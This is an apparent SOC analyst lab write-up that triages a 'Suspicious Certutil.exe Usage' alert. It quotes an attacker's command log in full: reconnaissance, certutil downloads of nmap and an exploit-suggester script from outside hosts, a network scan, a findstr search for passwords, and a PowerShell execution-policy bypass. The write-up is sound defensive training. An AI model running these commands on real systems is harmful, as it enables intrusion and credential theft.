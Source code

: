 # discreption
- EventID :`113`
- Event Time :`Mar, 01, 2022, 11:06 AM`
- Rule :`SOC163 - Suspicious Certutil.exe Usage`
- Level :Security Analyst
- Hostname :`EricProd`
- IP Address :`172.16.17.22`
- Related Binary :`certutil.exe`
- Binary Path :`C:/Windows/System32/certutil.exe`
- Command Line : `certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-win32.zip nmap.zip`
- Alert Trigger Reason : `-f parameter with certutil.exe`
- EDR Action : Allowed

```
A LoLBin is any binary supplied by the operating system that is normally used for legitimate purposes but can also be abused by malicious actors. Several default system binaries have unexpected side effects, which may allow attackers to hide their activities post-exploitation.
(definition: talosintelligence.com)
```
```
Determine which binary is supplied by the operating system but is also home to suspicious activities. To do this, you can resort to the alert details on the Monitoring page or Endpoint Security.
```
Certutil.exe: Attackers encode a file using base64 and then use CertUtil to download it from a remote URL to the victim’s device
`certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py`

- Certutil.exe: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil

```ps1
#01.03.2021 10:11
whoami
#01.03.2021 10:13
net user
#01.03.2021 10:16
net user
#01.03.2021 10:17
ipconfig
#01.03.2021 10:18
ipconfig /all
#01.03.2021 10:19
net Localgroup
#01.03.2021 10:22
net start
#01.03.2021 10:24
netstat
#301.03.2021 10:25
tasklist
#01.03.2021 10:27
systeminfo
#01.03.2021 11:06
certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip
#01.03.2021 11:07
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py
#01.03.2021 11:08
nmap -sV 192.168.0.0/24 -p 80
#01.03.2021 11:27
python3 check.py
#01.03.2021 18:54
arp -a
#01.03.2021 19:32
findstr /si pass *.txt | *.xml| *.ini
#01.03.2021 21:36
C:/powershell.exe -nop -exec bypass
```
- Q1
```
Previously, you found the related binary. Now, we’d like you to determine whether it was used for malicious purposes. You can use the link below to determine how legal binary can be used to perform malicious activities.

LOLBAS Project
There are some characteristics common to command lines:

They often have a file-path or other artifact as one of the arguments, that changes based on the user environment or machine, such as usernames or system GUIDs in file paths.
The order of arguments in the command change, or a single argument has a slightly different value.
They can have randomly generated strings in embedded URLs or file paths.
They can be obfuscated on purpose by attackers (variable assignment, invocation of string expressions created on the fly, etc).
(list source: sophos.com)


Is the current activity suspicious?
```
- `yes`

![alt text](image-1.png)
`https://lolbas-project.github.io/`

- Determine Suspicious Activity: Yes, suspicious
Question: What Is Suspicious Activity?
```ps
#01.03.2021 11:06
certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip
#01.03.2021 11:07
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py
```
`Download` 
Question: Who Performed the Activity?
after checking cmd log it know it's user
`User`